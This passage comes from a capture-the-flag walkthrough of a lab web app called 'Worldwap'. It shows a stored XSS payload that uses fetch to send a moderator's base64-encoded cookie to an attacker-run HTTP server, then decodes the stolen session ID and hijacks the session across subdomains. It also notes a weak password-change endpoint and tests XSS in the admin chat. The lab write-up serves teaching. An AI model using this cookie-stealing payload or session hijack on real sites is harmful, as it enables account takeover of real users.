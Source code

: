 ```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.100.74 - - [26/Apr/2024 23:54:00] "GET / HTTP/1.1" 200 -
```

We can use a payload like this to steal the cookies of the moderator: `<script>fetch('http://10.11.72.22/?'+btoa(document.cookie));</script>`

![Web Server Worldwap Register XSS Payload](worldwap_register_xsspayload.webp){: width="1200" height="900" }

After some time, we get the cookie in a request to our webserver.

```console
10.10.100.74 - - [26/Apr/2024 23:58:00] "GET /?UEhQU0VTU0lEPTFzMGo5YXZiOTlzZm9mcnNkbmY5Nm9oMGI0 HTTP/1.1" 200 -

$ echo UEhQU0VTU0lEPTFzMGo5YXZiOTlzZm9mcnNkbmY5Nm9oMGI0 | base64 -d
PHPSESSID=1s0j9avb99sfofrsdnf96oh0b4
```

After changing our cookie to the moderator's cookie and visiting `http://worldwap.thm/public/html/` we get redirected to `http://worldwap.thm/public/html/dashboard.php`.

![Web Server Worldwap Dashboard](worldwap_dashboard.webp){: width="1200" height="900" }

Remembering the cookie is also set for any subdomain, we visit `http://login.worldwap.thm/login.php` and get redirected to `http://login.worldwap.thm/profile.php`, where we get the moderator flag.

![Web Server Login Worldwap Moderator Flag](login_worldwap_moderator_flag.webp){: width="1200" height="900" }

## Admin Flag

After gaining access to `http://login.worldwap.thm/`, there are two main endpoints.

At `http://login.worldwap.thm/change_password.php`, admin users are able to change passwords.

![Web Server Login Worldwap Change Password](login_worldwap_change_password.webp){: width="1200" height="900" }

The request made for password change is a POST request to `http://login.worldwap.thm/change_password.php` endpoint with `application/x-www-form-urlencoded` content type and only requires the new password.

![Web Server Login Worldwap Change Password Request](login_worldwap_change_password_request.webp){: width="500" height="500" }

At `http://login.worldwap.thm/chat.php`, we are able to send messages to the admin user.

![Web Server Login Worldwap Chat](login_worldwap_chat.webp){: width="1200" height="900" }

> At this point, there are two ways to move forward; I will show both.
{: .prompt-info }

### XSS

Testing a simple XSS payload like `<script>alert(1)</script>` on the chat, we see that it works.
